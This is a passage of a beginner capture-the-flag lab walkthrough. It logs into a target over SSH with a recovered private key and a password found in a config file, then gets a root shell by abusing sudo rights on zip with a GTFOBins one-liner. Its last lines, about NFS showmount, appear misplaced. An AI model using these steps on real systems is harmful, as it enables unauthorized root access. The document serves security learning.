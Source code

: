 ```
The id_rsa file is a private key used in SSH (Secure Shell) for secure communication between a client and a server. It is part of a key pair used for SSH authentication.
```
## Enumerating SSH

So we got our username as `jeanpaul`, the host  `Target Ip` and `id_rsa` key we can establish an ssh connection using the private key.

```
ssh -i id_rsa jeanpaul@[target ip]
--------------------------------------------
-i id_rsa:

-i: This option specifies the identity file (the private key) to use for the SSH connection.
id_rsa: This is the filename of the private key you want to use. The id_rsa file should contain your private key, which corresponds to a public key that has been added to the remote server's ~/.ssh/authorized_keys file.

jeanpaul@[target ip]:

jeanpaul: This is the username you want to log in as on the remote server.
[target ip]: This is the IP address (or hostname) of the remote server you want to connect to.
```

You'll be asked to enter a `passphrase` for key `'id_rsa'`

Now remember the `config.yml` file we found a password in that file `i_love_java`

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/b392e7ab1a2b7c1c5fc543d565f9a1eceb708cf4/Dev/images/loginwithssh.png)

And we are in !

Now we can check what are the commands/operations this user can do as **root** and without the need of a password. 

```
sudo -l
```
```
User jeanpaul may run the following commands on dev:
        (root) NOPASSWD: /usr/bin/zip
```

Abuse the `zip` feature to be able for us to escalate into root.
You can search for this in `GTFOBins` and i found [**this**](https://gtfobins.github.io/gtfobins/zip/)

```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```
Execute these one by one,and you'll get a shell !


[target]: This is the IP address or hostname of the remote server you're querying. It tells showmount which server to check for NFS shares.
[target ip]: This is the IP address or hostname of the NFS server that is sharing the directory.